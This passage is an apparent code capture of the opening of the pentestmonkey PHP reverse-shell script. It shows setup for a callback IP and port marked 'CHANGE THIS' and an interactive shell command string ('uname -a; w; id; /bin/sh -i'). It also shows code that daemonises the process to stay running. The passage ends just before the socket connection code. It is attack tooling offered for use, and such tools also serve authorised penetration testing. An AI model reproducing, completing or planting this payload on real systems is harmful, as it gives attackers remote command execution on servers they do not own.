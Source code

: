 ```bash
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//
```